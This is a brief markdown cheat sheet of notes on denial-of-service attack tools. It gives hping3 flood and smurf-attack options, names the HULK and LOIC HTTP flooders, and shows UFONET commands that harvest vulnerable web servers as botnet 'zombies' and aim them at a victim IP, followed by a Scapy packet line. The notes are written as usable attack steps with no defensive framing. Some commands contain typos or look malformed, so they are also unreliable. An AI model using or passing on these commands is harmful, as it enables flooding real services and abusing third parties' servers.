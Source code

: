 ### hping3
- can also be used for scanning ports.
- useful options: `--flood` `--rand-source` `-p ++80`
- for smurf attack use `-S host_ip broadcast_range_mask`. 
### HTTP flooad attacks
- HULK
- LOIC: for more longer connections but also the rate of them is less than HULK. It actually waits some seconds for established connections and then send new requests.
### DDOS (botnet)
- UFONET
- you can use vulnerable servers as your zombies of net. first download them `--download-zombies`. and then verify them by `-t botnets/zombies.txt`
- `-i victim` to found the largest resource of it
- ```bash ufonet -a victim_ip -r 10 -b victim_ip/resource_path```
  - `-b` means the concurrent connections of each bot
- `./ufonet -s 'proxy.php?url=' --sa` : search all webservers through all search engines that contains specific strings. then you can check dork strings inside `botnets/dorsl.txt`.
### SCAPY
  ```python
  p=Ether()/IP(src='',dst='')/RAW("x"*20)
  ```
